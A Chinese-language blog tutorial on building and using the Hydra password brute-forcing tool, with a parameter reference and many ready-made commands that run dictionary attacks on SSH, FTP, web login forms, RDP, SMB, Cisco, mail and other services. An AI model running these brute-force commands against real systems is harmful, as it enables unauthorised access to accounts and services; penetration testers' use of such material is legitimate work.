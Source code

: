 ```yaml
---
layout: post
category: curleyg-code-hack
title: 破解工具hydra安装与使用
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 破解工具hydra安装与使用
lock: need
---
```


# 破解工具hydra安装与使用

注：大家可以到链接[https://download.csdn.net/download/l1028386804/10902002](https://download.csdn.net/download/l1028386804/10902002 ) 下载Hydra一键安装包，内含冰河亲做一键安装脚本，直接运行即可。

**说明：** hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网：http://www.thc.org/thc-hydra，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。 这款暴力密码破解工具相当强大，支持几乎所有协议的在线密码破解，其密码能否被破解关键在于字典是否足够强大。对于社会工程型渗透来说，有时能够得到事半功倍的效果。本文仅从安全角度去探讨测试，请勿用于非法事件。

**安装：** 1.yum安装相应依赖包

```
# yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel libncurses-devel
```

2.hydra编译安装

```
# cd /usr/local/src
# wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
# tar zxf hydra-6.3-src.tar.gz
# cd hydra-6.3-src
# ./configure
# make
# make install
```

**参数：**

```
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项
```

**使用：** 1.手动创建用户名字典和密码字典，这里只是为了演示，只加了几个用户名和弱口令。真正破解时，需要利用密码字典生成器生成强大的字典

2.破解ssh：

```
# hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.8 ssh
```

破解成功，直接显示结果。也可以使用 -o 选项指定结果输出文件。

```
# hydra -L users.txt -P password.txt -t 1 -vV -e ns -o save.log 192.168.1.104 ssh
```

其它实例：

1.破解ssh：

```
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
# hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
```

2.破解ftp：

```
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

3.get方式提交，破解web登录：

```
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```

4.post方式提交，破解web登录：

```
# hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
# hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）
```

5.破解https：

```
# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
```

6.破解teamspeak：

```
# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
```

7.破解cisco：

```
# hydra -P pass.txt 10.36.16.18 cisco
# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
```

8.破解smb：

```
# hydra -l administrator -P pass.txt 10.36.16.18 smb
```

9.破解pop3：

```
# hydra -l muts -P pass.txt my.pop3.mail pop3
```

10.破解rdp：

```
# hydra ip rdp -l administrator -P pass.txt -V
```

11.破解http-proxy：

```
# hydra -l admin -P pass.txt http-proxy://10.36.16.18
```

12.破解imap：

```
# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
# hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
此工具强大之处远多于以上测试，其密码能否破解关键在于强大的字典，对于社工型渗透来说，有时能够得到事半功倍的效果
```

**附录：** 附录1:hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory 如果是ubuntu系统的话，直接apt-get install cmake libssl-dev就可以了。但我系统的centOS，没有找到libssl-dev这东西。因为手#动编译了libssh

```
# yum install cmake
# cd /usr/local/src
# wget http://www.libssh.org/files/0.4/libssh-0.4.8.tar.gz
# tar zxf libssh-0.4.8.tar.gz
# cd libssh-0.4.8
# mkdir build
# cd build
# cmake -DCMAKE_INSTALL_PREFIX=/usr -DCMAKE_BUILD_TYPE=Debug -DWITH_SSH1=ON ..
# make
# make install
# /sbin/ldconfig  //要执行这句，不然会出现hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory

# cd /usr/local/src
# wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
# tar zxf hydra-6.3-src.tar.gz
# cd hydra-6.3-src
# ./configure
# make
# make install
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

